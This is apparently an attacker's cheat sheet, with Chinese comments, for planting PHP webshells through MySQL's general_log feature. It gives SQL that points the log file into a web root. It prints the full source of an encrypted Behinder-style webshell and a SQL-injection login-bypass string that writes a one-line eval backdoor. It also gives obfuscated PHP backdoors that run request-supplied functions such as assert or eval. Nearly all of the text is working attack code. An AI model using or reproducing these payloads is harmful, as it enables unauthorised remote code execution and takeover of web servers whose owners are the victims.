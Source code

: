 ```
 show variables like '%general%';
 #查看mysql中是否可以更改日志文件位置，和查看当前日志在服务器中的“绝对路径”从而判断web目录。
 
 set global general_log = on;
 #设置全局变量为on，然后才可以写入更改文件

set global general_log_file = "C:/test/webroot/log.php";
 #设置日志文件到web服务下的目录，等通过sql语句写完shell后好执行！

select '<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; 
	$_SESSION["k"]=$key;
	$post=file_get_contents("php://input");
	if(!extension_loaded("openssl"))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode("|",$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
';

#将mysql的general_log变量值为ON后，生成log文件后，直接输入以上冰蝎代码。

admin' or (select '<?php @eval($_POST[cmd]);?>') and 'a'='a

#  经过验证，如果知道路径生成日志文件后，通过sql注入执行select一句话木马就可以直接连接菜刀，然后通过菜刀上传冰蝎马扩大权限！


<?php $e = $_REQUEST["e"];$arr = array($_POST["POST"],);array_map(base64_decode($e), $arr);?>

<?$e = $_REQUEST["e"]; register_shutdown_function($e, $_POST["hai"]); ?>

/*
	$e($_REQUEST[hai])   最后$e=eval 或者是$e=assert  ，assert($_REQUEST[hai]);
	注：传参的值后面不要加（），如?e=assert 就可以了
*/
```
